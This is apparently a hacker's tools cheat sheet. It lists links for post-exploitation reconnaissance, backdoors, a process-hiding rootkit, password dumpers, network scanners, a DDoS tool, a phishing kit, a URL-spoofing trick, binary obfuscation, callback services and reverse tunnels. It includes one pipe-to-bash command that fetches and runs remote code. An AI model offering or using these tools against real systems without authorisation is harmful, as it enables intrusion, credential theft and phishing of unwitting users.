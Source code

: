 System Information Gathering
1. `curl -fsSL https://thc.org/ws | bash` - Show all domains hosted on a server + system-information
1. https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS - Quick system informations for hackers.
1. https://github.com/zMarch/Orc - Post-exploit tool to find local RCE (type `getexploit` after install)
1. https://github.com/The-Z-Labs/linux-exploit-suggester - Suggest exploits based on versions on target system 
1. https://github.com/efchatz/pandora - Windows: dump password from various password managers

Backdoors
1. https://www.gsocket.io/deploy - The world's smallest backdoor
1. https://github.com/m0nad/Diamorphine - Linux Kernel Module for hiding processes and files
1. https://www.kali.org/tools/weevely - PHP backdoor

Network Scanners
1. https://github.com/robertdavidgraham/masscan - Scan the entire Internet
1. https://github.com/ptrrkssn/pnscan - Fast network scanner
1. https://zmap.io/ - ZMap & ZGrab

Vulnerability Scanners
1. [Raccoon](https://github.com/evyatarmeged/Raccoon) - Reconnaissance and Information Gathering
1. [Osmedeus](https://github.com/j3ssie/osmedeus) - Vulnerability and Information gathering
1. [FullHunt](https://github.com/fullhunt/) - log4j and spring4shell scanner 

DDoS
1. [DeepNet](https://github.com/the-deepnet/ddos) - we despise DDoS but if we had to then this would be our choice.

Static Binaries / pre-compiled Tools
1. https://bin/ajam.dev ([github](https://github.com/Azathothas/Toolpacks/tree/main), [hysp project](https://github.com/metis-os/hysp-pkgs))
1. https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64
2. https://lolbas-project.github.io/ (Windows)
1. https://iq.thc.org/cross-compiling-exploits

Phishing
1. https://github.com/htr-tech/zphisher - We don't hack like this but this is what we would use.
2. https://da.gd/ - Tinier TinyUrl and allows https://www.google.com-fish-fish@da.gd/blah

Tools
1. https://github.com/guitmz/ezuri - Obfuscate Linux binaries
1. https://tmate.io/ - Share A screen with others

Callback / Canary / Command & Control
1. https://app.interactsh.com
1. https://api.telegram.org
1. https://webhook.site

Tunneling
1. [Gost](https://github.com/ginuerzh/gost/blob/master/README_en.md)
1. [TCP Gender Changer](https://tgcd.sourceforge.net/) for all your 'connect back' needs.
1. [ngrok](https://ngrok.com/download), [cloudflared](https://developers.cloudflare.com/cloudflare-one/connections/connect-apps) or [pagekite](https://pagekite.net/) to make a server behind NAT accessible from the public Internet.

